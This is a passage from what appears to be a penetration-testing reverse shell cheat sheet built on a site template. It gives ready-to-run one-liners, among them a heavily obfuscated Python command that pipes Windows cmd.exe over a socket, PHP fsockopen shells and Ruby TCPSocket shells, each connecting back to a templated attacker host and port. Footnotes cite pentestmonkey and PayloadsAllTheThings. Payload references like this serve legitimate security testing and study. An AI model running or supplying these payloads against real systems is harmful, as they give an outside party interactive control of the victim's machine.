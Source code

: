 ```sh
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('{{< param "war.lhost" >}}', {{< param "war.lport" >}})), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### PHP

```sh
php -r '$sock=fsockopen("{{< param "war.lhost" >}}",{{< param "war.lport" >}});exec("/bin/sh -i <&3 >&3 2>&3");'
```

```sh
php -r '$sock=fsockopen("{{< param "war.lhost" >}}",{{< param "war.lport" >}});$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("{{< param "war.lhost" >}}","{{< param "war.lport" >}}");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

```sh
ruby -rsocket -e'f=TCPSocket.open("{{< param "war.lhost" >}}",{{< param "war.lport" >}}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Ruby Windows

```sh
ruby -rsocket -e 'c=TCPSocket.new("{{< param "war.lhost" >}}","{{< param "war.lport" >}}");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.